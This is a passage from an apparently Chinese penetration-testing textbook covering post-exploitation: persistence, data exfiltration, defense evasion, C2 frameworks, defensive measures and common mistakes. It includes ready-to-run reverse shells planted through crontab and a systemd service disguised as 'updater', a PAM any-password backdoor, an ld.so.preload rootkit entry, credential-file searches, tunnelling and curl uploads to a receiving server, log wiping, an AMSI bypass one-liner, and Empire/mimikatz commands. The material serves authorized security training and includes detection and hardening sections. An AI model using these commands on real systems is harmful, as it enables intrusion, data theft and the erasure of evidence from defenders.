# /etc/crontab方式（需要root权限）
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/攻击机IP/端口 0>&1'" >> /etc/crontab
```

**系统服务持久化**

```bash
# 创建systemd服务（需要root权限）
cat > /etc/systemd/system/updater.service << EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 -c 'import socket,subprocess;s=socket.socket();s.connect(("攻击机IP",端口));subprocess.call(["/bin/bash","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
EOF

systemctl enable updater.service
systemctl start updater.service
```

**PAM 后门**

PAM（Pluggable Authentication Modules）是Linux认证框架。修改PAM模块可以在认证过程中插入后门逻辑：

```bash
# 方法1：修改PAM配置允许任意密码登录
# 编辑 /etc/pam.d/common-auth
# 在auth行前添加：
auth sufficient pam_permit.so

# 方法2：编译自定义PAM模块
# 这是高级持久化技术，需要自定义PAM模块代码
# 在认证成功/失败时执行额外操作
```

**LD_PRELOAD 后门**

```bash
# 在/etc/ld.so.preload中添加恶意共享库路径
echo "/lib/.hidden/rootkit.so" >> /etc/ld.so.preload

# 该共享库会在所有动态链接程序之前加载
# 可以hook关键系统调用（如认证、文件操作）实现rootkit功能
```

#### 持久化检测与清理

作为渗透测试的一部分，记录所有持久化机制非常重要，测试结束后必须全部清理：

```powershell
# Windows持久化检查清单
# 注册表启动项：reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# 计划任务：schtasks /query /fo LIST /v
# WMI订阅：Get-WMIObject -Namespace root\Subscription -Class __EventFilter
# 服务：sc query type= service state= all
# 用户账户：net user
# 组成员：net localgroup administrators
```

```bash
# Linux持久化检查清单
# SSH密钥：cat ~/.ssh/authorized_keys
# Cron任务：crontab -l && cat /etc/crontab && ls /etc/cron.*
# 系统服务：systemctl list-unit-files | grep enabled
# PAM配置：cat /etc/pam.d/common-auth
# LD_PRELOAD：cat /etc/ld.so.preload
# 启动脚本：cat /etc/rc.local && ls /etc/init.d/
```

---

### 2.4.5 数据获取与隐蔽传输

数据获取（Data Exfiltration）是渗透测试的关键验证环节，证明攻击者确实可以窃取核心数据。同时，隐蔽传输技术也是测试数据防泄漏（DLP）能力的重要手段。

#### 数据定位与打包

在大量文件中快速定位敏感数据是关键能力：

```bash
# Linux：搜索敏感文件
find / -name "*.key" -o -name "*.pem" -o -name "*.p12" -o -name "*.pfx" 2>/dev/null
find / -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null
find / -name "*.db" -o -name "*.sqlite" -o -name "*.sql" 2>/dev/null
grep -r "password\|passwd\|credentials\|secret" /etc/ /opt/ /var/ 2>/dev/null

# Windows：搜索敏感文件
where /R C:\ *.kdbx 2>nul
where /R C:\ *.key 2>nul
dir /s /b C:\Users\*password* 2>nul
# 使用PowerShell
Get-ChildItem -Path C:\ -Recurse -Include *.kdbx,*.key,*.pfx,*.pem -ErrorAction SilentlyContinue
```

```bash
# 数据打包
# Linux
tar czf /tmp/data.tar.gz /path/to/target/files
zip -r /tmp/data.zip /path/to/target/files

# Windows（PowerShell）
Compress-Archive -Path C:\temp\target\* -DestinationPath C:\temp\data.zip
# 或使用makecab
makecab /L C:\temp C:\temp\sensitive.docx C:\temp\data.cab
```

#### 隐蔽信道技术

隐蔽信道（Covert Channel）是将数据封装在看似正常的网络协议中传输的技术，用于绕过网络安全监控和DLP系统。

**DNS 隧道**：将数据编码为DNS查询和响应。由于DNS流量在几乎所有网络中都被允许通过，这是一种高度隐蔽的传输方式。

```bash
# 使用dnscat2
# 攻击机（DNS服务器端）
dnscat2-server <域名>

# 目标机（客户端）
dnscat2-client <域名>

# 使用iodine
# 服务器端
iodined -f 10.0.0.1 <域名>

# 客户端
iodine -f <域名>
```

DNS隧道的局限是带宽较低（通常只有几KB/s），适合传输小量高价值数据。

**ICMP 隧道**：利用ICMP echo request/reply（ping）包的数据字段传输数据。

```bash
# 使用ptunnel
# 代理端（攻击机）
ptunnel -p <代理IP> -lp <本地端口> -da <目标IP> -dp <目标端口>

# 客户端
ptunnel -p <代理IP> -lp <本地端口> -da <目标IP> -dp <目标端口>

# 使用icmpsh
# 攻击机
python icmpsh_m.py <攻击机IP> <目标IP>

# 目标机
icmpsh.exe -t <攻击机IP>
```

**HTTP/HTTPS 隧道**：将数据封装在HTTP请求/响应中。由于HTTP/HTTPS是网络中最常见的流量类型，这种隧道混入正常流量中极难被检测。

```bash
# 使用chisel
# 服务端（攻击机）
chisel server --reverse --port 8080

# 客户端（目标机）
chisel client <攻击机IP>:8080 R:socks

# 使用reGeorg
# 上传tunnel.jsp/aspx/php到目标Web服务器
# 在攻击机上建立SOCKS代理
python reGeorgSocksProxy.py -p 1080 -u http://<目标>/tunnel.jsp
```

**编码传输**：对数据进行编码后通过正常通道传输。

```bash
# Base64编码
base64 -w0 sensitive_file.bin > encoded.txt

# 分块传输（规避文件大小检测）
split -b 50k encoded.txt chunk_

# 通过多个渠道分散传输
curl -X POST -d @chunk_aa http://接收服务/data
curl -X POST -d @chunk_ab http://接收服务/data
```

**加密传输**：保护传输数据的机密性，同时规避DPL的内容检测。

```bash
# 使用OpenSSL加密
openssl enc -aes-256-cbc -salt -pbkdf2 -in sensitive_data.tar.gz -out encrypted.bin -pass pass:StrongPassword123

# 使用GPG加密
gpg --symmetric --cipher-algo AES256 sensitive_data.tar.gz

# 通过加密通道传输
# HTTPS上传
curl -X POST -F "file=@encrypted.bin" https://接收服务/upload
# SSH传输
scp encrypted.bin user@接收服务器:/tmp/
```

#### 数据渗出方式对比

| 方式 | 隐蔽性 | 带宽 | 适用场景 | 检测难度 |
|------|--------|------|---------|---------|
| DNS隧道 | 极高 | 极低 | 小量高价值数据，严格防火墙环境 | 高 |
| ICMP隧道 | 高 | 低 | 绕过TCP/UDP过滤 | 中 |
| HTTPS隧道 | 高 | 中-高 | 大量数据传输，混入正常HTTPS流量 | 高 |
| HTTP隧道 | 中 | 中 | 通用场景 | 中 |
| 直接TCP传输 | 低 | 高 | 内网传输，无严格监控 | 低 |
| 物理介质 | 极高 | 取决于介质 | 离线数据窃取 | 极高 |

---

### 2.4.6 防御规避

在安全成熟度较高的环境中，防御规避（Defense Evasion）是后渗透能否成功的关键。现代终端安全产品（EDR）和SIEM系统能够检测到大部分传统的后渗透技术，因此攻击者需要使用各种规避技术来绕过检测。

#### 日志清理

```powershell
# Windows事件日志清除
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# PowerShell：删除特定日志条目（需要管理员权限）
# 使用wevtutil导出后删除敏感条目再导入

# Linux日志清理
# 清空日志文件（不删除文件，避免触发文件监控）
> /var/log/auth.log
> /var/log/syslog
> /var/log/messages

# 删除特定行（如特定IP的SSH登录记录）
sed -i '/攻击机IP/d' /var/log/auth.log

# 清空当前用户的历史记录
history -c
> ~/.bash_history
unset HISTFILE
export HISTSIZE=0
```

#### AMSI 绕过

AMSI（Antimalware Scan Interface）是Windows 10+和Server 2016+中的安全接口，允许安全软件在PowerShell、VBScript等脚本引擎执行代码前进行扫描。

```powershell
# 常见的AMSI绕过技术
# 方法1：修改AMSI上下文
$a=[Ref].Assembly.GetTypes()|?{$_.Name -like "*iUtils"};$b=$a.GetFields('NonPublic,Static')|?{$_.Name -like "*Context"};[IntPtr]$c=$b.GetValue($null);[Int32[]]$d=@(0);[System.Runtime.InteropServices.Marshal]::Copy($d,0,$c,1)

# 方法2：使用base64编码分割恶意代码
# 将敏感命令拆分为多个编码片段，在内存中拼接执行

# 方法3：使用C#反射加载
# 通过.NET的反射机制绕过PowerShell层面的检测
```

#### ETW 绕过

ETW（Event Tracing for Windows）是Windows的事件跟踪框架，许多EDR产品依赖ETW获取系统事件。通过修补ETW函数来阻止事件上报是一种高级规避技术。

```powershell
# 禁用当前进程的ETW
# 修改EtwEventWrite函数的前几个字节
$etw = [System.Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance')
```

#### 进程注入

进程注入是将恶意代码注入到合法进程中执行的技术，可以绕过进程白名单和基于行为的检测。

```powershell
# 常见的进程注入技术：
# 1. DLL注入：将DLL加载到目标进程的地址空间
# 2. 进程镂空（Process Hollowing）：挂起合法进程，替换其内存内容
# 3. APC注入：通过异步过程调用将代码插入目标进程的执行队列
# 4. Thread Hijacking：挂起目标线程，修改其执行上下文
```

#### 操作安全（OPSEC）原则

在后渗透阶段，操作安全是贯穿始终的原则：

1. **最小权限原则**：只申请完成任务所需的最低权限，避免不必要的提权
2. **最小痕迹原则**：优先使用内存执行技术，减少文件写入；使用后清理日志和临时文件
3. **正常化原则**：使用目标环境中已有的工具和协议，减少引入异常
4. **时间原则**：避免在非工作时间进行高风险操作；分散活动时间避免行为模式被识别
5. **工具安全**：使用自定义工具或修改开源工具的特征签名，避免被基于签名的安全产品检测
6. **通信安全**：C2通信使用加密通道，选择目标环境中常见的协议和端口

---

### 2.4.7 后渗透框架

现代渗透测试通常借助后渗透框架来提高效率和协作能力。这些框架提供了统一的界面来管理权限提升、横向移动、持久化等各类操作。

#### 主流后渗透框架对比

| 框架 | 类型 | 优势 | 劣势 | 适用场景 |
|------|------|------|------|---------|
| Cobalt Strike | 商业 | 团队协作、Malleable C2、隐蔽性强 | 价格高、签名被广泛检测 | 专业红队 |
| Sliver | 开源 | Go编写、跨平台、多C2协议 | 生态不如CS成熟 | 替代CS的开源选择 |
| Havoc | 开源 | 现代化UI、功能全面 | 相对较新 | 红队评估 |
| Empire | 开源 | PowerShell/Python Agent、模块丰富 | 传统框架，检测率较高 | 渗透测试 |
| Metasploit | 开源 | 模块最全、社区最大 | 默认特征明显 | 通用渗透测试 |
| Mythic | 开源 | Web UI、支持多种Agent语言 | 配置复杂 | 高级红队 |

#### C2 通信技术

C2（Command and Control）框架与受控主机之间的通信方式直接影响隐蔽性和可靠性：



- **HTTPS**：最常用，流量与正常Web浏览难以区分，可以使用合法域名（如CDN、云存储）作为前置代理
- **DNS**：极高的隐蔽性，但带宽受限，适合低频率心跳和小量数据传输
- **SMB**：内网环境中的理想选择，因为SMB流量在内网中非常常见
- **云服务API**：使用Slack、Teams、GitHub等合法云服务作为中间人，流量看起来完全合法

#### Empire 基础使用

```bash
# 启动Empire
./empire

# 创建监听器
uselistener http
set Host http://攻击机IP
set Port 80
execute

# 生成Payload
usestager multi/launcher
set Listener http
generate

# 将生成的PowerShell命令在目标上执行后，会建立Empire Agent连接
# 交互Agent
interact <AGENT_ID>

# 常用模块
usemodule powershell/privesc/bypassuac  # 绕过UAC提权
usemodule powershell/credentials/mimikatz  # 凭据提取
usemodule powershell/lateral_movement/invoke_psremoting  # 横向移动
usemodule powershell/persistence/elevated/registry  # 注册表持久化
```

---

### 2.4.8 后渗透的防御视角

理解后渗透技术不仅对攻击方重要，对防御方同样关键。以下是针对主要后渗透技术的防御措施：

#### 权限提升防御

- **及时修补内核漏洞**：建立漏洞补丁管理流程，优先修补高危漏洞
- **最小权限原则**：用户和服务账户只授予完成任务所需的最低权限
- **SUID审计**：定期审计系统中的SUID/SGID文件，移除不必要的SUID位
- **sudo配置审查**：使用`visudo`管理sudo配置，避免NOPASSWD和危险命令
- **容器安全**：不使用`--privileged`模式运行容器，限制容器的能力（Capabilities）

#### 凭据保护

- **启用Credential Guard**：Windows Credential Guard使用基于虚拟化的安全技术保护凭据
- **Protected Users安全组**：将高权限账户加入此安全组，禁用NTLM和可逆加密
- **定期重置KRBTGT密码**：每180天重置两次KRBTGT密码
- **禁用不必要的SPN**：减少Kerberoasting攻击面
- **启用预认证**：为所有域用户启用Kerberos预认证

#### 横向移动检测

- **网络分段**：将关键系统隔离在独立的安全区域，限制跨区域的协议
- **监控管理协议**：对SMB、WinRM、RDP、SSH等管理协议的异常使用进行告警
- **蜜罐部署**：在内网部署蜜罐，检测未授权的横向移动尝试
- **登录行为分析**：使用UEBA（用户实体行为分析）检测异常登录模式

#### 持久化检测

- **定期审计启动项**：检查注册表Run键、计划任务、WMI订阅等持久化位置
- **文件完整性监控**：对关键系统文件和配置启用FIM（File Integrity Monitoring）
- **进程监控**：监控进程的父子关系和命令行参数，检测异常进程树
- **网络连接监控**：监控出站连接，检测异常的C2通信

---

### 2.4.9 后渗透阶段的常见错误

#### 错误一：跳过权限提升直接横向移动

很多初学者拿到初始shell后急于扫描内网和横向移动，而忽略了权限提升。受限权限会导致凭据提取不完整（无法读取SAM/LSASS）、无法执行管理操作、横向移动范围受限。

**正确做法**：先完成本地权限提升和凭据收集，再进行横向移动。系统性地完成一台主机的深度信息收集，比在多台主机间浅尝辄止更高效。

#### 错误二：不清理测试痕迹

渗透测试必须在测试结束后清理所有测试痕迹，包括后门账户、上传的文件、计划任务、注册表项等。遗漏的持久化机制如果在测试结束后仍然运行，可能造成安全风险或法律纠纷。

**正确做法**：在测试过程中详细记录所有修改。测试结束前逐项检查并清理。在测试报告中列出需要客户确认清理的所有项目。

#### 错误三：忽视操作安全

在高安全环境中，不注意操作安全会导致被安全运营团队检测并阻断，使后续测试无法进行。

**正确做法**：在测试开始前与客户确认监控能力水平，根据目标环境调整技术方案。使用加密通信、内存执行、合法协议等隐蔽技术。控制活动频率和时间。

#### 错误四：工具依赖症

只会使用自动化工具，不理解底层原理。一旦工具被检测或无法使用就束手无策。

**正确做法**：理解每个工具背后的技术原理（如PtH的NTLM协议机制、Kerberos票据的工作流程），在工具不可用时能够手动实现相同功能。

#### 错误五：遗漏证据收集

后渗透阶段会产生大量有价值的发现，但如果不及时记录，最终报告将缺乏细节和说服力。

**正确做法**：每一步操作都记录时间戳、使用的命令、获取的结果（截图或日志保存）。这些记录既是报告撰写的素材，也是证明测试范围和方法合法性的证据。

---

### 2.4.10 后渗透技术的发展趋势

随着安全防御技术的不断进步，后渗透技术也在持续演进：

1. **无文件化（Fileless）**：越来越多的后渗透操作在内存中完成，不写入磁盘文件，规避基于文件签名的检测
2. **Living off the Land（LOLBins）**：利用操作系统内置工具（PowerShell、WMI、certutil、msbuild等）执行恶意操作，规避应用白名单
3. **EDR对抗**：针对终端检测与响应（EDR）产品的规避技术，包括内核回调移除、用户态Hook清除、AMSI/ETW绕过
4. **云环境后渗透**：随着企业上云，针对AWS、Azure、GCP等云平台的后渗透技术（IAM角色滥用、元数据服务利用、跨账户横向移动）成为新方向
5. **零信任架构的影响**：零信任架构要求每个请求都经过验证，传统的基于网络位置的横向移动变得更加困难，推动了身份攻击技术的发展

这些趋势表明，后渗透技术正在从"攻破边界后的自由移动"转向"在严密监控下的精密操作"，对渗透测试人员的技术深度提出了更高的要求。
